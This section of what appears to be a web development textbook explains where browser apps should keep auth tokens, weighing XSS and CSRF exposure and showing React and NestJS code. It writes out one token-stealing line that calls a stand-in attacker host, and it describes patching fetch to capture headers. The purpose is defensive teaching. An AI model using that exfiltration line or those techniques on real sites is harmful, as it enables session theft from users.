

# Part 81 — Auth and Security in the Browser

Part 44 — Security built authentication and authorisation from the server's side: password hashing, sessions in Redis (44.2), JWTs and refresh rotation (44.3), OAuth 2.0 and OIDC (44.4, 44.5), XSS and CSRF (44.21, 44.22), and the security headers a NestJS service sends (44.33). Part 79 then put a Next.js tier in front of NestJS: a BFF that keeps tokens on the server (79.8) and three layers of auth checks, with middleware for convenience, a data access layer for correct rendering and NestJS for enforcement (79.9). Part 79 ended with a 15-minute access token in a cookie and a promise: refresh, rotation and logout come in Part 81.

This Part keeps that promise from the browser's side. The browser is where the attacker's code runs (XSS, a compromised analytics script), where the attacker's page sits next to yours (CSRF, clickjacking), where tokens get copied into places nobody audits (`localStorage`, URLs, logs), and where several tabs share one login and disagree about whether it is still valid. The backend controls only what it sends; the browser decides what happens next. So every section asks the same two questions: what can an attacker in the browser actually do, and what must the NestJS API send or check to make the frontend safe?

Stack and versions, as in the rest of the volume: NestJS 10, Next.js 14 App Router (with notes where 15 and 16 differ), React 18 (with notes for React 19), `jose` 5 for JWTs in Edge code, `openid-client` 6 for OIDC on the server, TanStack Query v5, and the `@shop/contracts` package. The worked example in 81.10 is the auth flow Part 85 — Full-Stack Worked Project reuses, so the cookie names, endpoints and lifetimes chosen here are the ones that project builds on.

## 81.1 Where tokens live: HttpOnly cookies vs memory vs localStorage

#### Concept

After login, the browser must hold *something* that proves who the user is on the next request: a session id, an access token, a refresh token. There are only a handful of places it can live:

1. **An `HttpOnly` cookie.** The browser stores it and attaches it to matching requests. JavaScript on the page cannot read it at all: it does not appear in `document.cookie`.
2. **JavaScript memory.** A variable in a module or a React context. Gone on reload, invisible to other tabs, readable by any script running in the page.
3. **Web Storage (`localStorage`, `sessionStorage`).** Persistent key-value storage readable by any script on the same origin. `localStorage` survives restarts; `sessionStorage` lives per tab.
4. **IndexedDB or a service worker.** More complex storage, still on the same origin, still reachable by any script there.
5. **Nowhere in the browser.** The **token-handler** or **BFF** pattern from 79.8: tokens live on the Next.js server, and the browser holds only an opaque `HttpOnly` session cookie.

The choice is not about which place is "secure". It is about **which attacker** you are defending against and **what that attacker gets** when they win. The two that matter most are a script running in your page (XSS) and a page on another site making your browser send requests (CSRF).

#### Why does it exist?

Single-page apps grew up calling APIs with `Authorization: Bearer <token>` headers. To set that header, JavaScript must be able to read the token, and the easiest place to keep a readable token across reloads is `localStorage`. A generation of tutorials did exactly that. Meanwhile, the cost of XSS kept rising: a modern storefront loads 20 to 60 third-party scripts (analytics, A/B testing, chat, reviews, tag managers), and any one of them, or any one of your 1,500 npm dependencies, can run code in your origin (81.8).

So the storage question exists because two goals pull in different directions. JavaScript-readable tokens are convenient for calling APIs on other origins and need no CSRF defence. Script-unreadable cookies survive XSS better but bring CSRF, cookie scoping and size limits with them (81.2, 81.6).

#### Mental model

Imagine the key to your flat.

- **`localStorage`** is a key under the doormat. Anyone who gets as far as your front door, even once, can take a copy home and come back whenever they like, for as long as the lock is unchanged.
- **Memory** is a key in your pocket. Safer, but a pickpocket standing next to you while you are out can still lift it, and you lose it every time you change clothes (reload).
- **An `HttpOnly` cookie** is a key built into a smart lock that only opens when you are standing at the door. A burglar who gets inside while you are home can open doors with you there, but cannot walk away with a copy.
- **The BFF** keeps the key with a concierge downstairs. You carry only a visitor badge that is useless outside the building.

None of these stops a burglar who is already inside your flat while you are home. That is XSS. What changes is whether they leave with a key that works tomorrow from another city.

#### How it works

The threat model, made concrete. Suppose an attacker's script runs in `https://shop.example` because of an XSS bug or a compromised third-party script.



Step by step:

1. **`localStorage`**: one line, `fetch('https://evil.example/c?t=' + localStorage.getItem('token'))`, sends the token away. If it is a refresh token valid for 30 days, the attacker has 30 days. They can use it from their own machine, at 3 a.m., at full speed, with no browser in the way.
2. **Memory**: the token is not in storage, but the script runs before or alongside yours. It can replace `window.fetch` with a wrapper that copies every `Authorization` header it sees. Memory reduces persistence (a reload clears it) and makes theft slightly harder; it does not prevent it.
3. **`HttpOnly` cookie**: the script cannot read the cookie. It *can* call `fetch('/api/v1/me/addresses', { method: 'POST', credentials: 'include', ... })`, and the browser attaches the cookie. This is called **session riding**. The attacker acts as the user, but only from inside the victim's browser, only while the tab is open, only to origins your CSP's `connect-src` allows, and only as fast as your rate limits let a real user go.
4. **BFF**: the same as the cookie case, plus the browser never sees an access token for any downstream service, so there is nothing to copy even from network traffic in DevTools.

The honest summary: **no storage choice defeats XSS.** `HttpOnly` cookies turn "the attacker owns the account for a month" into "the attacker can act while the victim's tab is open", and that is a large difference in practice, because it shrinks the window, ties the attack to the victim's device and IP, and lets step-up checks (re-enter password to change email, 81.5) still bite.

The full comparison:

| Where | XSS can read it | XSS can use it | CSRF exposure | Survives reload | Shared across tabs | Calls other origins easily |
|---|---|---|---|---|---|---|
| `localStorage` | Yes, and exfiltrate | Yes | None | Yes | Yes | Yes |
| `sessionStorage` | Yes, and exfiltrate | Yes | None | Yes (same tab) | No (copied on "duplicate tab") | Yes |
| Memory | With effort (patching `fetch`) | Yes | None | No | No | Yes |
| `HttpOnly` cookie | No | Yes, from this tab only | Yes, needs `SameSite` and checks (81.6) | Yes | Yes | Only with CORS credentials and a parent-domain cookie |
| BFF, opaque cookie | No | Yes, through the BFF only | Yes, same as cookie | Yes | Yes | Not needed: BFF calls them |
| Non-extractable key in IndexedDB (DPoP) | Key cannot be exported | Yes, from this origin | None | Yes | Yes | Yes |

The last row is worth knowing. **DPoP** (Demonstrating Proof of Possession, RFC 9449) binds an access token to a key pair. The browser creates the pair with Web Crypto using `extractable: false`, stores the `CryptoKey` object in IndexedDB, and signs a small proof JWT for every request. A stolen token is useless without the private key, and the private key cannot be exported by any script. XSS can still use the key while it runs, like session riding, but cannot take it away. It needs authorisation-server and API support, so it is a choice for high-value apps rather than a default.

#### Practical example

A food delivery web app shows "Hi, Priya" in the header, the saved addresses, and the order history. What does the client actually need to *know*? The user's name, id, roles for showing UI (81.5) and feature flags. What does it need to *prove* on each request? Only who the user is, and the browser can prove that with a cookie it cannot read.

So the client holds a **session view** (from `GET /v1/me`) in memory, and no token at all. If the page is reloaded, it calls `/v1/me` again; the cookie does the proving. The token problem disappears from the frontend code entirely, and the remaining work is on cookies (81.2), refresh (81.3) and CSRF (81.6).

#### React / Next.js example

The anti-pattern, still common in code reviews:

```tsx
// apps/web/src/auth/LegacyAuthProvider.tsx  -- what NOT to ship
'use client';
import { createContext, useContext, useState, type ReactNode } from 'react';

const AuthContext = createContext<{ token: string | null; login: (t: string) => void } | null>(null);

export function LegacyAuthProvider({ children }: { children: ReactNode }) {
  // Readable by every script on the origin, persisted for as long as the token is valid.
  const [token, setToken] = useState<string | null>(() => localStorage.getItem('accessToken'));
  const login = (t: string) => { localStorage.setItem('accessToken', t); setToken(t); };
  return <AuthContext.Provider value={{ token, login }}>{children}</AuthContext.Provider>;
}
export const useLegacyAuth = () => useContext(AuthContext);
```

The replacement holds no secret. It knows *about* the user, not *how to be* the user:

```tsx
// apps/web/src/auth/SessionProvider.tsx
'use client';
import { createContext, useContext, type ReactNode } from 'react';
import { useQuery } from '@tanstack/react-query';
import { SessionViewSchema, type SessionView } from '@shop/contracts';
import { apiGet } from '../api/client';

const SessionContext = createContext<SessionView | null>(null);

export function SessionProvider({ initial, children }: { initial: SessionView | null; children: ReactNode }) {
  // `initial` comes from the server layout (requireSession in 79.9), so the first paint already knows the user.
  const { data } = useQuery({
    queryKey: ['me'],
    queryFn: ({ signal }) => apiGet('/v1/me', SessionViewSchema, signal), // cookie does the proving
    initialData: initial ?? undefined,
    staleTime: 5 * 60_000,
    retry: false,                                                       // a 401 here means "logged out", not "flaky"
  });
  return <SessionContext.Provider value={data ?? null}>{children}</SessionContext.Provider>;
}

export const useSession = () => useContext(SessionContext);             // name, roles, flags: display only
```

Two details matter. `apiGet` (78.2) already sends `credentials: 'include'` to the same-origin `/api/v1/*` path, so the cookie flows through the `rewrites` proxy (79.8) without the code ever touching it. And `retry: false` is deliberate: the 401 path is handled by the refresh logic in 81.3, not by TanStack Query's generic retries.

#### Backend side (NestJS)

The API must accept the credential where the browser keeps it, and must never hand a long-lived secret to page JavaScript.

```ts
// apps/api/src/auth/jwt.strategy.ts
import { Injectable } from '@nestjs/common';
import { ConfigService } from '@nestjs/config';
import { PassportStrategy } from '@nestjs/passport';
import { ExtractJwt, Strategy } from 'passport-jwt';
import type { Request } from 'express';

const fromSessionCookie = (req: Request): string | null =>
  req.cookies?.['__Host-session'] ?? null;               // needs app.use(cookieParser()) in main.ts

@Injectable()
export class JwtStrategy extends PassportStrategy(Strategy) {
  constructor(cfg: ConfigService) {
    super({
      // Browser traffic: the cookie. Mobile apps and the BFF: the Authorization header.
      jwtFromRequest: ExtractJwt.fromExtractors([fromSessionCookie, ExtractJwt.fromAuthHeaderAsBearerToken()]),
      secretOrKey: cfg.getOrThrow<string>('JWT_PUBLIC_KEY'),
      algorithms: ['RS256'],                              // never accept 'none' or an HS256 downgrade
      issuer: cfg.getOrThrow<string>('AUTH_ISSUER'),
      audience: 'shop-web',
    });
  }
  validate(payload: { sub: string; roles?: string[]; sid: string; iat: number }) {
    return { id: payload.sub, roles: payload.roles ?? [], sessionId: payload.sid, issuedAt: payload.iat };
  }
}
```

The rules that go with it:

- **Cookie-authenticated routes need CSRF defences** the moment you accept the cookie extractor (81.6). Bearer-only routes do not.
- **Token responses are never cached.** Any response that carries a token or sets a session cookie sends `Cache-Control: no-store`.
- **The refresh token never appears in a JSON body sent to the browser.** It goes to the BFF server-side, or into an `HttpOnly` cookie scoped to the refresh path (81.2, 81.3).
- **`/v1/me` returns what the UI needs and nothing more**: no password hash, no internal flags, no other users' data.

#### Production scenario

A grocery marketplace with 1.2 million monthly users migrated from `localStorage` JWTs (24-hour access tokens, no refresh) to the BFF pattern with an `HttpOnly` session cookie. The measurable changes over the next quarter:

- The session cookie added about 900 bytes to every same-origin request; with HTTP/2 header compression (HPACK) the repeated cookie cost about 40 bytes per request after the first.
- The `rewrites` hop added 1 to 3 ms p50 inside the region; CORS preflights for the old cross-origin API calls disappeared, saving one 60 to 120 ms round trip on the first call to each endpoint on mobile.
- A stored XSS found later in the seller-facing review tool could no longer exfiltrate credentials. The security team's write-up classified it as "session riding limited to open tabs" rather than "mass account takeover", and the incident response took a day instead of a week of forced password resets.

#### Failure scenario

At 09:20 on a Monday, a customer support team lead reported that refunds had been issued overnight on 140 orders, all from her account. The support console stored a 7-day admin JWT in `localStorage`. Four days earlier, an attacker had placed an order with a delivery note containing ``. The console rendered delivery notes with `dangerouslySetInnerHTML` "so that line breaks would work". When the team lead opened the order on Friday, her token left the building. The attacker used it from a data centre IP over the weekend, slowly, at about one refund every six minutes, which no rate limit flagged.

The postmortem's root cause had three parts, and each fix maps to a section of this Part: the rendering sink (81.7), the token in script-readable storage (this section), and the lack of a second check on a high-value action (step-up, 81.5). With an `HttpOnly` cookie, the same XSS could only have issued refunds while her tab was open, from her IP, at a time when she was looking at the screen.

#### Edge cases & failure modes

- **Browser extensions** with the `cookies` permission can read `HttpOnly` cookies through the extensions API. `HttpOnly` protects against page scripts, not against software the user installed.
- **"Duplicate tab" copies `sessionStorage`**, so a per-tab token is not actually per-tab.
- **Safari's Intelligent Tracking Prevention** can delete script-writable storage (including `localStorage` and IndexedDB) for sites the user has not interacted with for seven days. Users who rely on "remember me" in `localStorage` get logged out unpredictably.
- **Tokens in URLs** (`?token=...`) leak through `Referer` headers, browser history, proxy logs and analytics tools. Never put a reusable credential in a URL; one-time codes are the exception, and only with `Referrer-Policy: no-referrer` (81.9).
- **Memory tokens and multiple tabs**: each tab must refresh on its own, multiplying refresh traffic and racing on rotation (81.3).
- **Shared and kiosk computers**: anything persistent outlives the user's visit. Logout must clear it (81.10).
- **A parent-domain cookie** (`Domain=shop.example`) is sent to every subdomain, including the marketing site run by an agency (81.2).

#### How a Senior Full-Stack Engineer thinks about this

The senior starts with the threat model, not the storage API. They say out loud: "XSS wins against every option; we are choosing what XSS gets." They prefer that the browser hold nothing it can read, which in a Next.js plus NestJS stack means the BFF pattern with `HttpOnly` cookies, and they accept the CSRF work that comes with it because CSRF has complete, cheap defences and XSS does not. They reserve DPoP and memory-held tokens for cases where the API really must be called cross-origin from the browser.

They also refuse to argue storage in isolation. Short access-token lifetimes, refresh rotation with reuse detection (81.3), CSP (81.7), a small third-party script budget (81.8) and step-up auth for sensitive actions (81.5) are one system. Storage is one dial on it.

To a product manager: "Wherever we put the login, a malicious script could act as the user while their tab is open. Putting it in a cookie the page cannot read means a script cannot take the login away and use it for weeks. It costs us one extra security check on forms, which we are adding anyway."

#### Common mistakes

- **Storing access or refresh tokens in `localStorage`** because a tutorial did, turning every XSS into long-term account takeover.
- **Believing memory storage defeats XSS.** It reduces persistence; a script in the page can still intercept the token.
- **Putting a JWT in a non-`HttpOnly` cookie** so that JavaScript can read it, which combines the CSRF exposure of cookies with the theft exposure of storage.
- **Returning the refresh token in the login JSON** to a browser client.
- **Holding roles from a decoded JWT** in a client store and treating them as authority (81.5).

#### Interview questions

1. **Where should a browser app keep its tokens, and why?** Expected answer: ideally nowhere readable by script; `HttpOnly` cookies, preferably an opaque session cookie with tokens held by a BFF. Why it matters: it changes what XSS can achieve. Follow-up: what new risk does a cookie introduce? (CSRF, solved with `SameSite`, Origin checks and tokens.)
2. **Does an `HttpOnly` cookie protect you from XSS?** Expected answer: no; it prevents exfiltration, not use. The attacker can ride the session from the victim's tab. Follow-up: what limits session riding? (CSP `connect-src`, step-up auth, short tab lifetime, anomaly detection.)
3. **Why is an in-memory access token not immune to XSS?** Expected answer: injected script runs in the same realm and can patch `fetch` or `XMLHttpRequest` to capture headers.
4. **What is DPoP and what problem does it solve that `HttpOnly` does not?** Expected answer: sender-constrained tokens bound to a non-extractable key; a stolen token is useless elsewhere. It allows JavaScript-held tokens without exfiltration risk.
5. **What is the token-handler or BFF pattern?** Expected answer: the server-side web tier holds tokens, the browser holds an opaque `HttpOnly` cookie, and the BFF attaches tokens to upstream calls.
6. **How would you migrate an app from `localStorage` tokens to cookies without logging everyone out?** Expected answer: add a one-time exchange endpoint that accepts the old token, sets the cookie and deletes the storage key; dual-accept for one access-token lifetime; then remove the header path for browser clients.

#### Practical exercise

Audit one web app you work on for credential storage.

Acceptance criteria:

- A table lists every credential the browser holds (session id, access token, refresh token, CSRF token, third-party tokens), where it lives, its lifetime, and whether script can read it.
- Running `Object.keys(localStorage)` and `document.cookie` in the console on a logged-in page reveals no reusable credential.
- An injected test script (`fetch('/api/v1/me')` from the console) is documented as "session riding possible", and the list of high-value actions that require step-up is written next to it.
- The NestJS `JwtStrategy` accepts the cookie for browser routes and the header for mobile routes, with tests for both.
